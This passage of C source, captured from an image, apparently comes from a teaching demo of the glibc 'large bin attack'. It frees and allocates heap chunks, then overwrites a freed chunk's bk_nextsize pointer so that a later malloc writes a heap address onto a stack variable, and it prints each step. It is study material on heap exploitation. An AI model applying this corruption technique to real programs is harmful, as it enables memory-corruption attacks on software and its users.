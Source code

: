 ```cpp
    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    // asm("int3");
    exit(0);
}
```
